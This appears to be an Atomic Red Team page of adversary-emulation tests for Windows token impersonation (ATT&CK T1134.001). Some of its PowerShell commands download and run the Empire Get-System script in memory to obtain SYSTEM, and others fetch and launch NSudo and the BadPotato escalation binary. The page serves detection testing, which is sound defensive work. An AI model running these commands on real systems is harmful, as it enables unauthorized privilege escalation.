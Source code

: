 # T1134.001 - Access Token Manipulation: Token Impersonation/Theft
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/001)
<blockquote>Adversaries may duplicate then impersonate another user's existing token to escalate privileges and bypass access controls. For example, an adversary can duplicate an existing token using `DuplicateToken` or `DuplicateTokenEx`. The token can then be used with `ImpersonateLoggedOnUser` to allow the calling thread to impersonate a logged on user's security context, or with `SetThreadToken` to assign the impersonated token to a thread.

An adversary may perform [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) when they have a specific, existing process they want to assign the duplicated token to. For example, this may be useful for when the target user has a non-network logon session on the system.

When an adversary would instead use a duplicated token to create a new process rather than attaching to an existing process, they can additionally [Create Process with Token](https://attack.mitre.org/techniques/T1134/002) using `CreateProcessWithTokenW` or `CreateProcessAsUserW`. [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) is also distinct from [Make and Impersonate Token](https://attack.mitre.org/techniques/T1134/003) in that it refers to duplicating an existing token, rather than creating a new one.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Named pipe client impersonation](#atomic-test-1---named-pipe-client-impersonation)

- [Atomic Test #2 - `SeDebugPrivilege` token duplication](#atomic-test-2---sedebugprivilege-token-duplication)

- [Atomic Test #3 - Launch NSudo Executable](#atomic-test-3---launch-nsudo-executable)

- [Atomic Test #4 - Bad Potato](#atomic-test-4---bad-potato)


<br/>

## Atomic Test #1 - Named pipe client impersonation
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script creates a named pipe, and a service that writes to that named pipe. When the service connects to the named pipe, the script impersonates its security context.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

Reference: https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

**Supported Platforms:** Windows


**auto_generated_guid:** 90db9e27-8e7c-4c04-b602-a45927884966






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique NamedPipe -Verbose
```






<br/>
<br/>

## Atomic Test #2 - `SeDebugPrivilege` token duplication
Uses PowerShell and Empire's [GetSystem module](https://github.com/BC-SECURITY/Empire/blob/v3.4.0/data/module_source/privesc/Get-System.ps1). The script uses `SeDebugPrivilege` to obtain, duplicate and impersonate the token of a another process.
When executed successfully, the test displays the domain and name of the account it's impersonating (local SYSTEM).

**Supported Platforms:** Windows


**auto_generated_guid:** 34f0a430-9d04-4d98-bcb5-1989f14719f0






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/BC-SECURITY/Empire/f6efd5a963d424a1f983d884b637da868e5df466/data/module_source/privesc/Get-System.ps1' -UseBasicParsing); Get-System -Technique Token -Verbose
```






<br/>
<br/>

## Atomic Test #3 - Launch NSudo Executable
Launches the NSudo executable for a short period of time and then exits.
NSudo download observed after maldoc execution. NSudo is a system management tool for advanced users to launch programs with full privileges.

**Supported Platforms:** Windows


**auto_generated_guid:** 7be1bc0f-d8e5-4345-9333-f5f67d742cb9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| nsudo_path | Path to the NSudo bat file | path | $env:TEMP&#92;NSudo_8.2_All_Components&#92;NSudo_Launcher&#92;x64&#92;NSudoLG.exe|


#### Attack Commands: Run with `powershell`! 


```powershell
Start-Process #{nsudo_path} -Argument "-U:T -P:E cmd"
Start-Sleep -Second 5
Stop-Process -Name "cmd" -force -erroraction silentlycontinue
```




#### Dependencies:  Run with `powershell`!
##### Description: NSudo.bat must exist in the specified path #{nsudo_path}
##### Check Prereq Commands:
```powershell
if (Test-Path #{nsudo_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile $env:TEMP\NSudo_8.2_All_Components.zip "https://github.com/M2Team/NSudo/releases/download/8.2/NSudo_8.2_All_Components.zip"
Expand-Archive -Path $env:TEMP\NSudo_8.2_All_Components.zip -DestinationPath $env:TEMP\NSudo_8.2_All_Components -Force
Rename-Item "$env:TEMP\NSudo_8.2_All_Components\NSudo Launcher" $env:TEMP\NSudo_8.2_All_Components\NSudo_Launcher
Remove-Item $env:TEMP\NSudo_8.2_All_Components.zip -Recurse -ErrorAction Ignore
```




<br/>
<br/>

## Atomic Test #4 - Bad Potato
https://github.com/BeichenDream/BadPotato
Privilege escalation using named pipe connections

**Supported Platforms:** Windows


**auto_generated_guid:** 9c6d799b-c111-4749-a42f-ec2f8cb51448






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
cd $env:temp
Start-Process .\BadPotato.exe notepad.exe
Start-Sleep -Second 20
Stop-Process -Name "notepad" -force -erroraction silentlycontinue
Stop-Process -Name "BadPotato" -force -erroraction silentlycontinue
```

#### Cleanup Commands:
```powershell
taskkill /f /im notepad.exe
```



#### Dependencies:  Run with `powershell`!
##### Description: BadPotato.exe must exist in the temp directory
##### Check Prereq Commands:
```powershell
if (Test-Path $env:temp\BadPotato.exe) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest -OutFile $env:TEMP\BadPotato.exe "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1134.001/bin/BadPotato.exe?raw=true"
```




<br/>
